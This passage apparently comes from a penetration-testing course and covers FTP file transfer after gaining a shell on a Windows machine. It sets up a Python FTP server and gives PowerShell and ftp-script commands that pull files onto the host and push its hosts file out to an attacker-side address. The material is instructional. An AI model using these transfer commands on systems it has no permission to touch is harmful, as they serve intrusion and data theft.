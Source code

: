 
Another way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

#### Installing the FTP Server Python3 Module - pyftpdlib

```shell-session
sudo pip3 install pyftpdlib
```

#### Setting up a Python3 FTP Server

```shell-session
sudo python3 -m pyftpdlib --port 21
```

#### Transferring Files from an FTP Server Using PowerShell

```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


#### FTP Uploads

```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```












